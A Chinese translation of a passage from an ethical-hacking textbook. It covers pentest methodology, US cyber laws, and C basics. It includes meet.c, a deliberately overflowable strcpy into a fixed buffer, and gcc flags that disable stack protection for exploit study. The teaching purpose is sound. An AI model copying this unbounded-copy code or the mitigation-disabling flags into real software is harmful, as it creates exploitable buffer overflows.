当发生攻击时，总会有相同的问题。攻击者是如何进入的？他们在网络内部待了多久？我们本可以做些什么来预防它？攻击可能难以检测，恶意行为者可能在环境中长时间潜伏。道德黑客可以帮助你学习如何识别攻击正在进行或即将开始，以便你能更好地保护所保障的资产。有些攻击很明显。拒绝服务攻击和勒索软件攻击会自我宣告。然而，大多数攻击都是隐蔽攻击，旨在避开雷达，不被安全人员和产品注意到。了解不同类型的攻击是如何发生的非常重要，以便能够正确识别并阻止它们。

有些攻击有先兆——这些活动可以警告你攻击即将发生。一次ping扫描后跟随端口扫描，是攻击已经开始的一个很好的迹象，可以作为早期预警信号。虽然存在帮助检测某些活动的工具，但需要有知识的安全专业人员来维护和监控系统。安全工具可能会失效，许多工具很容易被绕过。仅依赖工具会给你一种虚假的安全感。

黑客工具只是IT工具，用于授权目的时是好的，用于恶意目的时是坏的。工具是相同的，只是应用于不同的目的。道德黑客了解这些工具的使用方式以及攻击的执行方式，这正是使他们能够防御这些攻击的原因。本书将提及许多工具。专门帮助你识别攻击的工具在第7章和第8章中有所涵盖，并且贯穿全书。

## 灰帽之道

为了了解其安全态势的“实地真相”并理解其风险，许多组织选择雇佣道德黑客（或渗透测试人员）来执行攻击模拟。渗透测试人员将使用与恶意攻击者相同的工具和策略，但以受控且安全的方式。这使组织能够了解恶意行为者可能如何进入环境，如何在环境内部移动，以及如何外泄数据。这也使组织能够确定攻击的影响并识别弱点。模拟攻击使组织能够测试安全防御和监控工具的有效性。然后可以根据所学经验改进防御策略。

渗透测试不仅仅是漏洞扫描。在漏洞扫描期间，使用自动化扫描产品来探测一系列IP地址上的端口和服务。这些工具中的大多数会收集系统和软件的信息，并将信息与已知漏洞关联。这会生成一份漏洞列表，但并未提供这些漏洞可能对环境产生影响的概念。在渗透测试期间，会执行攻击模拟，以演示攻击的潜在业务影响。测试人员超越了创建代码和配置漏洞列表，使用恶意攻击者的视角执行受控攻击。渗透测试人员会将一系列攻击串联起来，以演示恶意攻击者可能如何进入环境、在整个环境中移动、控制系统和数据，并将数据从环境中外泄。他们会利用代码、用户、流程、系统配置或物理安全方面的弱点，来了解攻击者可能如何造成损害。这包括创建概念验证攻击、使用社会工程技术，以及撬锁和克隆物理访问徽章。

在许多情况下，渗透测试表明组织可能会潜在地失去对其系统的控制，有时更重要的是失去其数据。这在受监管程度较高的环境或具有行业合规要求的环境中尤其重要，渗透测试通常是必需的。渗透测试通常能证明实施安全控制的合理性，并有助于确定安全任务的优先级。

测试将有所不同，具体取决于你对环境所掌握的信息。黑盒测试是指你在对环境没有任何事先了解的情况下开始。白盒测试是指你被提供关于环境的详细信息，例如IP地址方案和URL。灰盒测试是指你一开始对环境没有任何信息，在证明你可以渗透环境后，你会获得信息以使你的努力更高效。

此外，测试的性质和持续时间将大相径庭。评估可以集中于某个地点、业务部门、合规要求或产品。利用嵌入式设备的方法学与红队评估期间使用的方法学不同（两者均在后面章节中描述）。本书中描述的各种利用方式，从ATM恶意软件到物联网利用方式，都展示了道德黑客可用的迷人专业多样性。

## 模拟攻击

本书包含有关许多利用方式和道德黑客领域的信息。此处提供了道德黑客流程的概述，该流程将在后面章节中进一步描述。

在执行攻击模拟时，与评估团队和利益相关者保持良好的沟通非常重要。研究技术环境并提出问题，这些问题将使你能够制定计划。他们的业务性质是什么？他们处理什么类型的敏感信息？请确保考虑以下领域：

- 确保每个人都知道评估的重点。这是针对信用卡数据的合规导向渗透测试吗？公司是否希望专注于


测试其检测能力？您是否正在测试即将发布的新产品？

- 与您的利益相关者及沟通团队其他成员建立安全通信渠道。保护测试工具和报告的输出。使用加密电子邮件。确保您的文档存储库安全。在您的电子邮件、文档存储库以及任何允许远程访问测试或报告环境的系统上设置多因素身份验证。

- 以书面形式定义评估范围，并与您的评估团队和利益相关者讨论。社会工程是否在范围内？网站评估应该深入到什么程度？

- 请务必询问任何脆弱系统——即最近意外关闭、重启或变慢的系统，或对业务运营至关重要的系统。制定计划来应对它们。

- 向您的利益相关者或团队详细描述您的方法论。讨论交战规则。如果他们检测到攻击，是否应该尝试阻止您的攻击模拟？谁应该知道测试？他们应该告诉报告任何测试活动的用户什么？

- 对您的行为负责。记录并文档化所有测试活动。进行渗透测试后却发现并非第一个到场，而且入侵正在进行，这并不罕见。请务必讨论开始和停止日期以及黑窗口期。

这里简要描述了渗透测试的典型步骤，并在后续章节中更深入地讨论：

- 1. 收集开源情报（OSINT）。在与目标保持零接触的同时，尽可能收集关于目标的信息。收集开源情报，否则称为“被动扫描”，可以包括使用以下内容：

  - 社交网络网站
  - 在线数据库
  - Google、LinkedIn 等等
  - 垃圾箱探索

- 2. 使用主动扫描和枚举。使用扫描工具和以下技术探测目标的公开暴露面：

  - 网络映射
  - 横幅抓取
  - 战争拨号
  - DNS 区域传输
  - 流量嗅探
  - 无线战争驾驶

- 3. 执行指纹识别。对目标系统进行彻底探测以识别以下内容：

  - 操作系统类型和补丁级别
  - 应用程序和补丁级别
  - 开放端口
  - 运行中的服务
  - 用户帐户

- 4. 选择目标系统。识别最有用的目标。

- 5. 利用发现的漏洞。执行针对疑似暴露点的适当攻击。请记住以下几点：

  - 有些可能无效。
  - 有些可能会终止服务，甚至使服务器宕机。
  - 有些可能会成功。

- 6. 提升权限。提升安全上下文，以便您拥有更多控制权。

  - 获取 root 或管理员权限。
  - 使用破解的密码进行未经授权的访问。
  - 执行缓冲区溢出攻击以获得本地而非远程控制。

- 7. 保留访问权限。此步骤通常涉及安装软件或进行配置更改，以确保以后可以获得访问权限。

- 8. 记录和报告。记录您发现的所有内容、发现方式、使用的工具、被利用的漏洞、活动时间表和成功情况，等等。最佳方法是边做边报告，经常收集证据并做笔记。


注：本书贯穿始终包含了每种方法论中涉及攻击的更详细方法。

## 不道德的黑客会有什么不同？

以下步骤描述了不道德的黑客会采取的不同做法：

- 1. 选择目标。动机可能是出于怨恨、娱乐或利润。没有基本规则，没有禁入目标，安全团队对即将到来的攻击肯定是一无所知的。

- 2. 使用中间人。攻击者从不同于自身的系统（中间人）或一系列其他系统发起攻击，以便在攻击被检测到时更难追踪到他们。中间人通常也是攻击者的受害者。

- 3. 按照之前描述的渗透测试步骤进行。

  - 开源情报收集
  - 主动扫描和枚举
  - 指纹识别
  - 选择目标系统
  - 利用发现的漏洞
  - 提升权限

- 4. 保留访问权限。这涉及上传和安装 rootkit、后门、木马应用程序和/或机器人，以确保攻击者以后可以重新获得访问权限。

- 5. 掩盖痕迹。此步骤涉及以下活动：

  - 清理事件和审计日志
  - 隐藏上传的文件
  - 隐藏允许攻击者重新获得访问权限的活动进程
  - 禁用发送到安全软件和系统日志的消息，以隐藏恶意进程和操作

- 6. 加固系统。在接管系统后，攻击者可能会修复开放漏洞，以便其他攻击者无法将该系统用于其他目的。

攻击者会使用被攻破的系统来满足他们的需求——在研究环境的同时，许多时候会在网络中隐藏数月或数年。通常，被攻破的系统随后被用来攻击其他系统，从而导致难以将攻击归因于正确的来源。

## 测试的频率和重点

道德黑客应该成为组织运营的正常部分。大多数组织每年至少进行一次渗透测试都会受益。但是，可能对安全性产生负面影响的技术环境重大变化，例如操作系统或应用程序升级，往往一年不止一次。因此，由于技术环境变化很快，建议大多数组织进行持续的安全测试。红队演练和季度渗透测试变得越来越普遍。

红队演练通常获得授权但未公开通知。您的客户会知道您有测试授权，但通常不知道测试何时进行。许多红队评估会持续一段很长的时间，目的是帮助组织完善其防御能力——或 *蓝团队* 能力。测试通常持续一整年，每季度提供外部简报，并创建各种报告和其他交付成果，以帮助组织评估进度。当蓝团队或防御性安全团队看到攻击时，他们不知道这是现实世界攻击还是红队演练，并会启动事件响应流程。这使组织能够进行 "cat-and-mouse" 游戏，道德黑客帮助防御性安全团队测试和完善其安全控制和事件响应能力。红队演练通常仅限于具备更成熟事件响应能力的组织。*第 7 章* 为本主题提供了更多信息。

许多组织正在转向一种模式，即渗透测试至少每季度进行一次。这使这些组织能够为每个季度选择不同的重点。许多组织将季度渗透测试与其变更管理流程对齐，从而确保测试活动彻底检查环境中最近变更的部分。

## 网络法的演变

网络安全是一个复杂的话题，而网络法为其增加了更多复杂层次。网络法跨越地缘政治边界，挑战了传统的治理结构。当网络攻击涉及多个国家，或包括遍布全球的僵尸网络时，谁有权制定和执行法律？我们如何应用现有法律？互联网上的匿名性挑战以及将行为归因于个人或群体的困难，使得起诉攻击者变得更加复杂。

政府正在制定大量适用于私人资产的法律，保护系统和数据类型（包括关键基础设施、专有信息和个人数据）的不同规则也各不相同。首席执行官和管理层不仅需要担心利润率、市场分析以及合并与收购；他们还需要进入一个实践审慎安全的世界，理解并遵守新的政府隐私和信息安全法规，因安全故障而承担民事和刑事责任（包括因某些安全漏洞而承担个人责任的可能性），并努力理解和应对信息安全问题影响公司的无数方式。

## 了解各个网络法

各个网络法涵盖从禁止未经授权的账户访问到传输会对计算机造成损害的代码或程序的方方面面。无论是否使用计算机，某些法律都适用，并保护通信（传输过程中的有线、口头和数据）免受未经授权的访问和披露。某些法律涉及受版权保护的内容本身，并保护其免受未经授权的访问。这些法律共同构成了一套用于起诉网络犯罪的法规拼图。这


本节概述了若干重要的网络法律。

## 18 USC 第 1029 节：准入设备法规

准入设备法规的目的是遏制对账户的未授权访问；金钱、产品和服务的盗窃；以及类似犯罪。它通过将伪造或未授权的准入设备或设备制造设备的持有、使用或贩运，以及其他类似活动（稍后描述）定为犯罪，以准备、促进或参与对金钱、商品和服务的未授权访问。它定义并规定了通过使用此类伪造准入设备可能发生的欺诈和非法活动的处罚。第 1029 节涉及生成或非法获取访问凭据的犯罪行为，这可能仅涉及获取凭据，或获取并使用它们。无论是否涉及计算机，这些活动都被视为刑事犯罪——这与下文讨论的法规不同，后者专门涉及计算机相关犯罪。

## 18 USC 第 1030 节：计算机欺诈与滥用法

计算机欺诈与滥用法（CFAA）经《美国爱国者法案》修正后，是一项重要的联邦法律，用于应对危及计算机网络安全的行为。它禁止未授权访问计算机和网络系统、通过威胁此类攻击进行敲诈勒索、传输会对计算机造成损害的代码或程序，以及其他相关行为。它针对对政府、金融机构及其他计算机和网络系统的未授权访问，并为违规者规定民事和刑事处罚。该法案规定了联邦调查局（FBI）和特勤局的管辖权。

## 18 USC 第 2510 条 et seq. 和第 2701 条 et seq.：电子通信隐私法

这些章节属于电子通信隐私法（ECPA），该法旨在保护通信免受未授权访问。因此，ECPA 的侧重点与 CFAA 不同，CFAA 旨在保护计算机和网络系统。大多数人没有意识到，ECPA 由两个主要部分组成：一部分修订了《窃听法》，另一部分修订了《存储通信法》，每个部分都有其自身的定义、条款和解释法律的案例。《窃听法》在传输过程中保护包括有线、口头和数据在内的通信，防止其被未授权访问和披露（除例外情况外）。《存储通信法》保护通信在传输和电子存储之前和/或之后的某些相同类型的通信。再次，这听起来简单而合理，但这种分割反映了一种认识：活跃通信与存储通信所涉及的风险和补救措施不同。

尽管 ECPA 旨在限制对通信的未授权访问，但它承认某些类型的未授权访问是必要的。例如，如果政府想要监听电话、互联网通信、电子邮件或网络流量，只要遵守 ECPA 下设立的旨在保护使用这些系统的人员隐私的保障措施，即可这样做。

## 千年版权法（DMCA）

DMCA 在关于黑客攻击和信息安全问题的讨论中并不常被提及，但它是相关的。DMCA 于 1998 年通过，以实施《世界知识产权组织版权条约》（WIPO 条约）。WIPO 条约要求条约缔约方“为作者使用的有效技术措施的规避提供充分的法律保护和有效的法律补救措施”，并限制未经授权的对其作品的行为。因此，虽然 CFAA 保护计算机系统，ECPA 保护通信，但 DMCA 保护某些（受版权保护的）内容本身，防止其未经授权被访问。DMCA 为使用、制造和贩运规避控制对受版权作品相关权利的访问或保护的技术措施的设备，规定了民事和刑事责任。

《千年版权法》（DMCA）规定，任何人都不应试图篡改和破解为保护版权法所保护的项目而设置的访问控制机制。

DMCA 提供了一项明确的豁免，允许进行“加密研究”以识别加密技术的缺陷和漏洞。它还规定了进行安全测试行为的例外情况（如果该行为不侵犯受版权保护的作品或违反诸如 CFAA 之类的适用法律），但它不包含涵盖信息安全专业人员可能从事的各种其他活动的更广泛豁免。

## 2002 年网络安全增强法

2002 年网络安全增强法是《爱国者法案》的补充，规定实施某些计算机犯罪的攻击者可能会被判处终身监禁。如果攻击者实施的犯罪可能导致他人身体伤害或可能死亡，或对公共健康或安全构成威胁，该攻击者可能面临终身监禁。CSEA 还增加了美国政府监控通信的能力和权力。CSEA 允许服务提供商报告可疑行为，而无需冒客户诉讼的风险。在该法案出台之前，服务提供商在报告可能的犯罪行为或试图与执法部门合作时处于两难境地。如果执法人员请求提供商客户的信息，而提供商在未经客户知晓或许可的情况下提供了该信息，那么在某些情况下，服务提供商可能因未经授权泄露私人信息而被客户起诉。现在，服务提供商可以报告可疑活动并与执法部门合作，而无需告知客户。《爱国者法案》的这些及其他规定无疑让许多公民权利监督者感到愤慨。

## 2014 年网络安全增强法

2014 年网络安全增强法规定，国家标准与技术研究院（NIST）院长将协调联邦政府参与制定一套“自愿的、由行业主导且基于共识”的网络安全标准，并与联邦机构和私营部门利益相关方进行磋商。该法案还规定，联邦、州和地方政府禁止使用私营实体共享的信息来制定此类标准，目的是监管该实体。

根据 2014 年网络安全增强法，联邦机构和部门必须制定一项网络安全研究与开发战略计划，该计划每四年更新一次。该战略计划旨在通过确保计划协作制定，防止行业和学术利益相关方之间的重复工作。该法案还包含教育部分，为联邦网络安全工作者设立“奖学金换服务”计划，并规定制定网络安全教育与意识计划，该计划将由 NIST 院长在公共部门和私营部门利益相关方的协商下制定。NIST 院长还负责制定政府增加使用云计算技术的战略，以支持云计算服务的增强标准化和互操作性。

## 2015 年网络安全信息共享法

2015 年网络安全信息共享法（简称“CISA”）建立了一个框架，用于私营实体与联邦政府之间机密、双向地共享网络威胁信息。安全港保护确保私营实体因共享信息而免受责任。

CISA 还授权某些政府和私营实体监控某些系统并为网络安全目的运行防御措施。私营实体因与 CISA 要求一致的监控活动而免受责任。

授权私营实体为网络安全目的在其自身信息系统和其他同意实体的信息系统上使用防御措施，并不构成授权“黑客反击”活动，此类活动通常根据《计算机欺诈与滥用法》属于非法。运行“防御措施”的授权不包括销毁、使其无法使用、提供未授权访问或实质性损害第三方信息系统的活动。

## 纽约州金融服务部网络安全法规

州法律正在变得更加详细和具有规定性，纽约州金融服务部（NY DFS）网络安全法规便是例证。NYDFS 网络安全法规于 2017 年初生效，要求纽约的金融机构实施特定的安全控制。新法规要求设立合格的首席信息安全官（CISO）、渗透测试、漏洞评估、年度 IT 风险评估以及许多其他安全控制。CISO 必须每年书面向实体的董事会报告实质性网络安全风险、网络安全计划的整体有效性，以及实体非公开信息的机密性、完整性和安全性。


## Summary

恶意攻击者凶猛且资金雄厚，在全球范围内运作，使用复杂技术，并不断改进。他们旨在控制我们的医院、选举、资金和知识产权。应对当今凶猛的恶意行为者的唯一方法是培养一支高素质的安全专业人员（道德黑客）队伍，具备抵御其攻击的技能。道德黑客是“黑暗面”（网络地下世界）与受不良行为者攻击者之间的缓冲区。他们通过首先发现安全问题并在坏人利用之前加以解决来防止恶意攻击。

随着对手不断提高其攻击的复杂性，我们，世界各地的道德黑客，努力工作以反对他们。虽然起诉攻击极其复杂，但网络法律正在发展，为我们提供协作机制，以便更好地预防和应对网络犯罪。随着蓬勃发展的物联网经济即将到来，道德黑客必须扩展其技能组合，专注于现代攻击技术。本书旨在帮助做到这一点——帮助道德黑客探索软件定义无线电、下一代安全运营、勒索软件、嵌入式设备漏洞利用等领域。祝黑客愉快！

## References

- 1. Raju Gopalakrishnan and Manuel Mogato, “Bangladesh Bank Official’s Computer Was Hacked to Carry Out $81 Million Heist: Diplomat,” *Reuters*, May 19, 2016, www.reuters.com/article/us-cyber-heist-philippines-idUSKCN0YA0CH.
- 2. Dmitri Alperovitch, “Bears in the Midst: Intrusion into the Democratic National Committee, *Crowdstrike*, June 15, 2016, https://www.crowdstrike.com/blog/bears-midst-intrusion-democratic-national-committee/.
- 3. “Mirai: What You Need to Know about the Botnet Behind Recent Major DDoS Attacks” *Symantec*, October 27, 2016, https://www.symantec.com/connect/blogs/mirai-what-you-need-know-about-botnet-behind-recent-major-ddos-attacks.
- 4. Kelly Jackson Higgins, “Lessons from the Ukraine Electric Grid Hack, *Dark Reading*, March 18, 2016, www.darkreading.com/vulnerabilities—threats/lessons-from-the-ukraine-electric-grid-hack/d/d-id/1324743.

## Programming Survival Skills

为什么要学习编程？道德黑客应该学习编程，并尽可能多地了解该主题，以便在程序中发现漏洞并在不道德的黑客利用它们之前将其修复。许多安全专业人员从非传统的角度来看待编程，通常在开始职业生涯之前没有编程经验。漏洞搜寻很大程度上是一场赛跑：如果存在漏洞，谁会先发现它？本章的目的是为您提供理解即将到来的章节所需的生存技能，然后在黑帽子之前找到软件中的漏洞。

- 在本章中，我们将介绍以下主题：
- C 编程语言
- 计算机内存
- Intel 处理器
- 汇编语言基础
- 使用 gdb 进行调试
- Python 生存技能

### C Programming Language

C 编程语言由 Dennis Ritchie 于 1972 年在 AT&T Bell Labs 开发。该语言在 Unix 中被大量使用，因此无处不在。事实上，许多主要的网络程序和操作系统，以及 Microsoft Office Suite、Adobe Reader 和浏览器等大型应用程序，都是由 C、C++、Objective-C、汇编语言和其他一些低级语言的组合编写的。

### Basic C Language Constructs

虽然每个 C 程序都是唯一的，但大多数程序中都可以找到一些常见结构。我们将在接下来的几个部分讨论这些内容。

### main()

所有 C 程序都包含一个 main() 函数（小写），其格式如下：

```
<optional return value type> main(<optional argument>) {
   <optional procedure statements or function calls>;
}
```

返回值类型和参数都是可选的。如果未指定返回值类型，则使用 int 返回类型；但是，如果未指定其返回值为 int 或尝试使用 void，某些编译器可能会发出警告。如果为 main() 使用命令行参数，请使用格式 <optional return value type> main(int argc, char * argv[]) {，其中 argc 整数保存参数的数量，argv 数组保存输入参数（字符串）。程序名称始终存储在 argv[0] 偏移量处。括号和方括号是强制性的，但这些元素之间的空白不重要。方括号用于表示代码块的开始和结束。尽管过程和函数调用是可选的，但如果没有它们，程序将什么也不做。过程语句只是一系列对数据或变量执行操作的命令，通常以分号结束。

### Functions

函数是可以被 main() 或其他函数调用执行的自包含代码捆绑包。它们是非持久的，可以根据需要调用多次，从而防止我们在整个程序中重复相同的代码。格式如下：

```
<optional return value type> function name (<optional function argument>) { }
```

函数的第一行称为签名。通过查看它，您可以判断函数在执行后是否返回值，或者是否需要用于处理函数过程的参数。

对函数的调用如下所示：

```
<optional variable to store the returned value> = function name (arguments if called for by the function signature);
```

以下是一个简单示例：

```
#include <stdio.h>
#include <stdlib.h>
int main(void) {
int val_x;
val_x = foo();
printf("The value returned is: %d\n", val_x);
exit(0);
}
int foo() {
return 8;
}
```

在此示例中，我们包括了相应的头文件，这些头文件包含 exit 和 printf 的函数声明。exit 函数在 stdlib.h 中定义，而 printf 在 stdio.h 中定义。如果您不知道基于程序中使用的动态链接函数需要哪些头文件，可以简单地查看手册条目，例如 man sscanf，并参考顶部的 synopsis。然后我们定义返回值为 int 的 main 函数。我们在括号之间的参数位置指定 void，因为我们不想允许将参数传递给 main 函数。然后我们创建一个名为 x 的变量，数据类型为 int。接下来，我们调用函数 foo 并将返回值赋给 x。foo 函数只是返回值 8。然后使用 printf 函数将此值打印到屏幕上，使用格式字符串 %d 将 x 作为十进制值处理。

函数调用修改程序的流程。当调用函数时，程序的执行会暂时跳转到该函数。被调用函数的执行完成后，控制权返回到调用函数，位置在调用指令下方的虚拟内存地址。在我们讨论第 11 章中的栈操作时，这个过程将更有意义。

### Variables

变量在程序中用于存储可能变化的信息片段，并可用于动态影响程序。表 2-1 显示了一些常见的变量类型。

| Variable Type | Use | Typical Size |
|---|---|---|
| int | 存储有符号整数值，例如 314 或 -314 | 64 位机器为 8 字节<br>32 位机器为 4 字节<br>16 位机器为 2 字节 |
| float | 存储有符号浮点数，例如 -3.234 | 4 字节 |
| double | 存储大型浮点数 | 8 字节 |
| char | 存储单个字符，例如 "d" | 1 字节 |

表 2-1 变量类型

当程序编译时，大多数变量根据系统特定的大小定义预分配固定大小的内存。表 2-1 中的大小被视为典型值；无法保证您会得到这些精确的大小。硬件实现负责定义大小。但是，C 中使用 sizeof() 函数以确保编译器分配正确的大小。

变量通常在代码块的顶部附近定义。随着编译器消耗代码并构建符号表，它必须在变量在后续代码中使用之前了解该变量。单词 symbol 只是一个名称或标识符。变量的正式声明以如下方式进行：

```
<variable type> <variable name> <optional initialization starting with "=">;
```

例如，

```
int a = 0 ;
```

在此示例中，整数（通常为 4 字节）在内存中声明，名称为 a，并具有初始


值为 0。

一旦变量被声明，赋值构造就用于更改变量的值。例如，语句

```
x=x+1;
```

是一个包含变量 x 的赋值语句，该变量由 + 运算符修改。新值存储在 x 中。通常使用以下格式

```
destination = source <with optional operators>
```

其中 destination 是存储最终结果的位置。

## printf

C 语言自带许多捆绑在 libc 库中的有用构造。其中最常用的构造之一是 printf 命令，通常用于将输出打印到屏幕。printf 命令有两种形式：

```
printf(<string>);
printf(<format string>, <list of variables/values>);
```

第一种格式简单直接，用于在屏幕上显示简单字符串。
第二种格式通过使用格式类型允许更大的灵活性，该格式类型可由普通字符和特殊符号组成，这些特殊符号充当逗号后面变量列表的占位符。常用格式符号在表 2-2 中列出并描述。

| 格式类型 | 含义 | 示例 |
|---|---|---|
| %n | 不打印任何内容 | printf("test %n" <PTR>); |
| %d | 十进制值 | printf("test %d", 123); |
| %s | 字符串值 | printf("test %s","123"); |
| %x | 十六进制值 | printf("test %x", 0x123); |
| %f | 浮点数 | printf("test %f", 1.308); |

表 2-2 printf 格式类型

这些格式类型允许程序员通过使用 printf 函数系列，指定希望如何在屏幕上显示数据、写入文件或其他可能性。例如，假设你知道某个变量是浮点数，并且你希望确保它以浮点数形式打印出来，同时还希望限制其宽度（包括小数点前后）。在这种情况下，你可以使用以下代码：

```
root@kali:~# cat fmt_str.c
#include <stdio.h>

int main(void){
    double x = 23.5644;
    printf("The value of x is %5.2f\n", x);
    printf("The value of x is %4.1f\n", x);
    return 0;
}
root@kali:~# gcc fmt_str.c -o fmt_str
root@kali:~# ./fmt_str
The value of x is 23.56
The value of x is 23.6
```

在第一个 printf 调用中，我们使用总宽度为 5，小数点后有 2 位。在第二个 printf 调用中，我们使用总宽度为 4，小数点后有 1 位。


NOTE 本章示例使用 32 位 Kali Linux。如果你使用的是 64 位 Kali Linux，可能需要更改编译器选项。

## scanf

scanf 命令是 printf 命令的补充，通常用于获取用户输入。格式为

```
scanf(<format string>, <list of variables/values>);
```

其中格式字符串可以包含格式符号，例如表 2-2 中所示用于 printf 的格式符号。例如，以下代码将从用户读取一个整数并将其存储到名为 number 的变量中：

```
scanf( "%d", &number );
```

实际上，& 符号表示我们将值存储到 number 所指向的内存位置。当我们在本章后面“指针”部分讨论指针时，这会更有意义。目前，请意识到在将 scanf 与任何变量名一起使用时，必须在变量名前使用 & 符号。该命令足够智能，可以即时更改类型，因此如果你在先前的命令提示符下输入一个字符，该命令会自动将该字符转换为十进制（ASCII）值。但是，不会对字符串大小进行边界检查，这可能会导致问题，如第 11 章后面所述。

## strcpy/strncpy

strcpy 命令是 C 语言中最危险的函数之一。命令格式如下：

```
strcpy(<destination>, <source>);
```

该命令的目的是将源字符串（以空字符 \0 结尾的一系列字符）中的每个字符复制到目标字符串中。这特别危险，因为在复制到目标之前不会检查源的大小。实际上，我们在这里谈论的是覆盖内存位置，这将在本章后面解释。简而言之，当源大于为目标分配的空间时，很可能存在溢出条件，这可能导致程序执行控制权被篡改。当正确使用时，更安全的替代函数是 strncpy。该命令的格式如下：

```
strncpy(<destination>, <source>, <width>);
```

<width> 字段用于确保仅从源字符串复制一定数量的字符到目标字符串，从而让程序员拥有更大的控制权。width 参数应基于目标的大小，例如分配的缓冲区。另一个能够控制大小并处理错误的替代函数是 snprintf。总体而言，由于开发人员需要处理内存分配，C 语言对字符串的处理一直存在争议并受到高度审查。


CAUTION 使用像 strcpy 这样的无界函数是不安全的；但是，许多传统编程课程并没有足够详细地介绍这些函数所带来的危险。事实上，如果程序员只是正确地使用更安全的替代方案，例如 snprintf，那么整个缓冲区溢出攻击类别将不那么普遍。许多程序员显然仍在使用这些危险的函数，因为缓冲区溢出仍被经常发现。包含不良函数的旧代码是另一个常见问题。幸运的是，大多数编译器和操作系统都支持各种漏洞利用缓解保护，有助于防止利用这类漏洞。话虽如此，即使是有界函数也可能因宽度计算错误而出现问题。

## for and while Loops

循环用于在编程语言中多次遍历一系列命令。两种常见类型是 for 循环和 while 循环。

for 循环从起始值开始计数，测试值是否满足某个条件，执行语句，并为下一次迭代递增值。格式如下：

```
for(<beginning value>; <test value>; <change value>) {
    <statement>;
}
```

因此，像这样的 for 循环

```
for(i=0; i<10; i++) {
    printf("%d", i);
}
```

会将 0 到 9 的数字打印在同一行（因为未使用 \n），如下所示：0123456789。

在 for 循环中，在循环语句迭代之前检查条件，因此甚至可能第一次迭代也不会执行。当条件不满足时，程序流程将继续在循环之后。


NOTE 重要的是要注意使用小于运算符（<）而不是小于或等于运算符（<=），这允许循环再进行一次，直到 i=10。这是一个重要概念，可能导致“离之一”错误。另外，请注意计数从 0 开始。这在 C 语言中很常见，值得习惯。

while 循环用于遍历一系列语句，直到满足条件。基本示例如下：

```
root@kali:~# cat while_ex.c
#include <stdio.h>
int main(void){
int x = 0;
    while (x<10) {
    printf("x = %d\n", x);
    x++;
    }
    return 0;
}
```

```
root@kali:~# gcc while_ex.c -o while_ex
root@kali:~# ./while_ex
x = 0
x = 1
x = 2
x = 3
x = 4
x = 5
x = 6
x = 7
x = 8
x = 9
```

循环也可以相互嵌套。

## if/else

if/else 构造用于在满足某个条件时执行一系列语句；否则，执行可选的 else 语句块。如果没有 else 语句块，程序流程将在 if 块的右括号（}）结束后继续。以下是在 for 循环中嵌套的 if/else 构造示例：


root@kali:~# cat ifelse.c
#include <stdio.h>
int main(void) {
int x = 0;
while(1) {
if (x == 0) {
printf("x = %d\n", x);
x++;
continue;
}
else {
printf("x != 0\n");
break;
}
return 0;
}
}
```

root@kali:~# gcc ifelse.c -o ifelse
root@kali:~# ./ifelse
x = 0
x != 0

在此示例中，我们使用 while 循环来遍历 if/else 语句。变量 x 在进入循环前被设置为 0。if 语句中的条件满足，因为 x 等于 0。将调用 printf 函数，x 自增 1，然后我们继续。在循环的第二次迭代中，if 语句中的条件不满足，因此我们进入 else 语句。将调用 printf 函数，然后我们跳出循环。对于单条语句，可以省略花括号。

## 注释

为了协助源代码的可读性和共享，程序员在代码中包含注释。在代码中放置注释有两种方式：// 或 /* 和 */。// 注释类型表示该行其余的任何字符都将被视为注释，并且在程序执行时不会被计算机处理。/* 和 */ 配对用于启动和停止可能跨多行的注释块。在此情况下，/* 用于启动注释，*/ 用于指示注释块的结束。

## 示例程序

您现在已准备好审查您的第一个程序。我们将先展示包含 // 注释的程序，然后对程序进行讨论。

```c
// hello.c
#include <stdio.h>
// customary comment of program name
// needed for screen printing
```

```c
main() {
   printf("Hello haxor");
}
```

这个非常简单的程序使用 stdio.h 库中包含的 printf 函数，将“Hello haxor”打印到屏幕上。

现在来看一个稍微复杂一点的例子：

```c
// meet.c
#include <stdio.h>
#include <string.h>
greeting(char *temp1, char *temp2) {
   char name[400];
   strcpy(name, temp2);
   printf("Hello %s %s\n", temp1, name);
}
main(int argc, char *argv[]) {
   greeting(argv[1], argv[2]);
   printf("Bye %s %s\n", argv[1], argv[2]);
}
```

该程序接受两个命令行参数并调用 greeting() 函数，该函数打印“Hello”和给定的名称以及一个回车。当 greeting() 函数完成后，控制权返回给 main()，main() 打印出“Bye”和给定的名称。最后，程序退出。

## 使用 gcc 编译

编译是将人类可读的源代码转换为计算机可读取并可执行的机器可读二进制文件的过程。更具体地说，编译器获取源代码并将其翻译为称为目标代码的一组中间文件。这些文件几乎可以执行，但可能包含原始源代码文件中未包含的符号和函数的未解析引用。这些符号和引用通过称为链接的过程得到解决，即将每个目标文件链接在一起形成可执行二进制文件。我们在此为您简化了该过程。

在 Unix 系统上使用 C 语言编程时，大多数程序员更喜欢使用 GNU C 编译器（gcc）。gcc 在编译时提供了大量选项。最常用的标志在表 2-3 中列出并描述。

| 选项 | 描述 |
|---|---|
| -o <filename> | 使用此名称保存编译后的二进制文件。默认情况下，输出保存为 a.out。 |
| -S | 生成包含汇编指令的文件；保存为 .s 扩展名。 |
| -ggdb | 生成额外的调试信息；使用 GNU 调试器（gdb）时非常有用。 |
| -c | 在不链接的情况下编译；生成 .o 扩展名的目标文件。 |
| -mpreferred-stack-boundary=2 | 使用 DWORD 大小堆栈编译程序，在学习过程中简化调试过程。 |
| -fno-stack-protector | 禁用堆栈保护；随 GCC 4.1 引入。学习缓冲区溢出（如第 11 章）时，此选项很有用。 |
| -z execstack | 启用可执行堆栈。学习缓冲区溢出（如第 11 章）时，此选项很有用。 |

表 2-3 常用的 gcc 标志

例如，要编译我们的 meet.c 程序，请输入

```
$ gcc -o meet meet.c
```

然后，要执行新程序，请输入

```
$ ./meet Mr Haxor
Hello Mr Haxor
Bye Mr Haxor
$
```

## 计算机内存

